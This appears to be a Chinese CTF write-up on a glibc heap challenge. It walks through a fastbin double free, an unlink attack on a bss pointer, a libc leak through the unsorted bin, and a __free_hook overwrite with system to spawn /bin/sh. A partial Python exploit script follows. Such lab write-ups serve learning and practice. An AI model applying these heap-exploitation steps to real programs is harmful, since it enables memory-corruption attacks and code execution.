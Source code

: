 再次add的话就能申请到10的chunk头，也就是20的用户段。就能够改chunk1的header了。
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711232121664-1927888583.png)

那么此时free(0)后再add(7)其实就是再修改chunk0用户段伪造fake chunk的size和fd,bk来打unlink。
接着free(1)，触发unlink,将10->&bss-0x18。
同时chunk1被free掉，由于size为0xa0，所以进了unsorted bin，show(1)即可得到main_arena+88，从而得到libcbase。
然后用暂时的10->&bss-0x18在chunk0用户段写，修改bss上的指针，写入`__free_hook`，然后再edit(0)改为system，free("/bin/sh\x00")即可。

---

其实还有一个点需要思考：为什么将size改为0xa0？
实践发现需要size=0x90或size=0xa0，那为什么卡着界限的0x80不行呢？![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711233932131-1699453348.png)
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711234000482-447430476.png)

0xb0也不行。。。
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240711234224271-2107193381.png)

🤔

其实不只是这个size的思考，另一个点:`add(6,p64(0)+p64(0x21)+b'\n')`也比较疑惑。
这个6其实无关紧要，仅仅影响的是bss段的指针存储，chunk分配不会改变。重点是要伪造这个0x21。
比如，如果这里改为0x31，就会报错：
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240712122910649-740271156.png)

说明是unlink时没有通过
```c
if(__builtin_expect(chunksize(p)!=prev_size(next_chunk(p),0))
```
的检查
下面的是设置为0x21  unlink前后的堆布局
![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240712123351491-1722440579.png)

![image](https://img2024.cnblogs.com/blog/3092507/202407/3092507-20240712123403520-1375774439.png)

可以看到确实触发unlink合并后一起进入了unsorted bin。
所以这里的0x21我的理解是：前面计算好unlink后的堆布局后，d0这里是合并后的下一个chunk，而且与top chunk紧邻，所以size应该设置为0x21(不然与topchunk距离不对)。
至于add(6,p64(0)+p64(0x21))的6，换成8,9都行。
然后那个0xa0 size的设置也是计算与topchunk前面那个堆块的offset来造的，0xa0刚刚好，0x90也行就很。。。🤔

Exp:(但是貌似打不通远程。。。奇了怪了+1。)
```python
bss = 0x602060
puts_got = elf.got['puts']

add(0,'a'*0x20)
add(1,b'b'*0x8+p64(0x21)+b'\n')
add(2,'/bin/sh\x00'+'c'*0x18)
add(3,p64(0)+p64(0x31)+p64(0)+p64(0x31))
add(6,p64(0)+p64(0x21)+b'\n') # 6,8,9 all OK desu
free(0)
free(1)
free(0)

show(0)
heap_addr=u64(p.recv(4).ljust(8,b'\x00'))
info_addr("heap",heap_addr)
edit(0,p64(heap_addr-0x20)+p64(0x21)+p64(0)+p64(0x21)) # modify fd


ptr=0x602060
add(4,p64(0)+p64(0x33)+p64(ptr-0x18)+p64(ptr-0x10))


add(5,p64(ptr-0x18)+p64(ptr-0x10)+p64(0x20)+p64(0xa0)) # why 0x90 or 0xa0?
```